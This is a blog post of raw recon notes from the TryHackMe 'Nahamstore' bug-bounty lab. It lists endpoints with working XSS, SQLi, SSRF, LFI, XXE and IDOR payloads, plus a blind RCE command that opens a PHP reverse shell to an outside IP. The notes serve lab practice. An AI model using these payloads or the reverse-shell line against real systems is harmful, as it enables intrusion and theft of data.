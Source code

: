 ```yaml
---
layout: post
title: "Nahamstore Recon Notes"
date: 2022-03-20 00:00:0
permalink: nahamstore-recon-notes/
tags: bug bounty tryhackme
---
```

_Not a walkthrough or writeup. Just my raw recon notes and vulnerabilities_
<br><br>
### Root domains
- nahamstore.thm

### Web Technologies
- nginx, ubuntu, jqurey

---
## nahamstore.thm
__Ports:__ 22,80,8000

### www.nahamstore.thm, shop.nahamstore.thm -> nahamstore.thm
-   `/<img src=/ onerror=alert()>` [rXSS] [Page Not Found]
-   `/?q` [rXSS]
-   `/?r` [open redirect]
<br><br>
-	`/basket` [POST] [address_id] [IDOR, PII]
<br><br>
-	`/register` [POST] [register_email, register_password]
-	`/register?redirect_url` [open redirect]
<br><br>
-	`/returns` [POST] [return_info] [sXSS]
-   `/returns` [POST] [order_number] [SQLi]
<br><br>
-   `/uploads` [301 -> 127.0.0.1:80]
<br><br>
- 	`/login`
-	`/logout`
<br><br>
-	`/search?q='-alert("test")-'` [rXSS] [js param `search`]
-   `/?q=%22+onfocus%3Dalert()+autofocus+` [rXSS][searchbox]
<br><br>
-   `/stockcheck` [POST] [SSRF] 
`server=stock.nahamstore.thm@internal-api.nahamstore.thm?a=&product_id=1`
<br><br>
-	`/staff` [File Upload - "xlxs only"] [XXE via xlxs]
<br><br>
-   `/account/orders`
-   `/account/settings` [Email,password change, disable acct]
-   `/account/addressbook` [Address change]
-   `/account/addressbook` [POST] [`new_address_title,new_address_fname,new_address_lname,new_address_line1,new_address_line2,road,new_address_line3,new_address_state,new_address_zipcode`]
-   `/account/orders/3`
<br><br>
-   `/product?id=2&name=</title>` [rXSS] 
-   `/product?id=2&discount=" onfocus="alert()" autofocus "` [rXSS]
-   `/product` [Discount, Add to basket, Check Stock]
-   `/product?id=` [SQLi] [rXSS]
-   `/product` [POST] [discount] [rXSS]
-   `/product/picture/?file=....//....//....//....//....//lfi/flag.txt` [LFI] 
<br><br>
-   `/pdf-generator` [POST] [IDOR] 
`what=order&id=3%26user_id=3`
- `/pdf-generator` [POST] [Blind RCE]
`what=order&id=4%3b$(php+-r+'$sock%3dfsockopen("10.11.80.81",1337)%3bshell_exec("sh+<%263+>%263+2>%263")%3b')`

### internal-api.nahamstore.thm
-   `/orders` [Information Disclosuer, IDOR]
[`"id":"4dbc51716426d49f524e10d4437a5f5a","5ae19241b4b55a360e677fdd9084c21c","70ac2193c8049fcea7101884fd4ef58e"`]

### nahamstore.thm:8000
-   `/admin` [admin:admin] [Marketing Manager Dashboard]
-   `/admin/8d1952ba2b3c6dcd76236f090ab8642c` [RCE] [PHP rev shell]

### marketing.nahamstore.thm
-   `/?error=` [XSS]

### nahamstore-2020-dev.nahamstore.thm [API]
-   /api/customers/?customer_id=2 [IDOR, Information Disclosure]

### stock.nahamstore.thm [API]
-   `/product`
-   `/product/1`
-   `/product/1?xml` [XML output]
-   `/product/1?xml` [XXE] [POST]
```xml
<!DOCTYPE foo [
<!ENTITY xxe SYSTEM "file:///flag.txt">
]>
<data>
    <X-Token>
        &xxe;
    </X-Token>
</data>
```